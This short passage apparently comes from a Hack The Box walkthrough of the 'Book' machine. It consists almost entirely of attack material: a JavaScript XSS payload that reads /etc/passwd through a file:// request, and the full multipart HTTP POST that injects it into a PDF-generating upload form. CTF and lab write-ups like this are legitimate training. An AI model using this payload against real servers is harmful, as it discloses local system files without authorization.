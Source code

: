 ![XSS collections](/assets/images/HTB-Book/1.b%20XSS%20collections.png)

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
    document.write(this.responseText);
};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

```http
POST /collections.php HTTP/1.1
Host: 10.10.10.176
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPnToumgEPeNDKMs5
...

------WebKitFormBoundaryPnToumgEPeNDKMs5
Content-Disposition: form-data; name="title"

<script> x=new XMLHttpRequest; x.onload=function(){     document.write(this.responseText); }; x.open("GET","file:///etc/passwd");x.send(); </script>
------WebKitFormBoundaryPnToumgEPeNDKMs5
Content-Disposition: form-data; name="author"

test
------WebKitFormBoundaryPnToumgEPeNDKMs5
Content-Disposition: form-data; name="Upload"; filename="1.pdf"
Content-Type: application/pdf

%PDF-1.3
...
```
